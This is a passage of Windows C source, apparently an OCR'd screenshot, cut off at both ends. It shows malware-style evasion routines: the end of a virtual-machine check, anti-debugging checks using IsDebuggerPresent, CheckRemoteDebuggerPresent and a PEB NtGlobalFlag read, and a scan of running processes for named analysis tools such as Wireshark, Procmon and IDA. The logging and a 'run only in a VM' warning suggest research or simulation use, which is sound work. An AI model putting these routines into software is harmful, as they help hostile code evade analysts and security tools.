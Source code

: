```c
                log_message("VM-DETECT", message, TRUE);
                result = TRUE;
            }
        }
        RegCloseKey(hKey);
    }

    // Method 3: Check Windows Management Instrumentation (WMI)
    // Note: Simplified example; actual implementation would use WMI queries

    if (!result) {
        log_message("VM-DETECT", "No virtual environment detected. THIS CODE SHOULD ONLY RUN IN A VM!", TRUE);
    }
    
    return result;
}

// Anti-debugging check
BOOL check_for_debugger() {
    // Method 1: IsDebuggerPresent API
    if (IsDebuggerPresent()) {
        log_message("ANTI-DEBUG", "IsDebuggerPresent() returned TRUE", TRUE);
        return TRUE;
    }
    
    // Method 2: CheckRemoteDebuggerPresent API
    BOOL debuggerPresent = FALSE;
    if (CheckRemoteDebuggerPresent(GetCurrentProcess(), &debuggerPresent) && debuggerPresent) {
        log_message("ANTI-DEBUG", "CheckRemoteDebuggerPresent() detected a debugger", TRUE);
        return TRUE;
    }
    
    // Method 3: NtGlobalFlag check
    PVOID pPeb = (PVOID)__readgsqword(0x60);
    DWORD NtGlobalFlag = *(PDWORD)((PBYTE)pPeb + 0xBC);
    if (NtGlobalFlag & 0x70) {  // Check for FLG_HEAP_ENABLE_TAIL_CHECK, etc.
        log_message("ANTI-DEBUG", "NtGlobalFlag indicates a debugger", TRUE);
        return TRUE;
    }
    
    log_message("ANTI-DEBUG", "No debugger detected", TRUE);
    return FALSE;
}

// Detect security tools by checking running processes
BOOL detect_security_tools() {
    const char* securityTools[] = {
        "wireshark.exe", "procmon.exe", "procexp.exe", "ollydbg.exe",
        "ida.exe", "ida64.exe", "x64dbg.exe", "protection_agent.exe",
        "epdump.exe", "dumpcap.exe"
    };
    
    PROCESSENTRY32 pe32 = { sizeof(PROCESSENTRY32) };
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    BOOL found = FALSE;
    char message[256];
    
    if (hSnapshot != INVALID_HANDLE_VALUE) {
        if (Process32First(hSnapshot, &pe32)) {
            do {
                for (int i = 0; i < sizeof(securityTools) / sizeof(securityTools[0]); i++) {
                    if (!_stricmp(pe32.szExeFile, securityTools[i])) {
```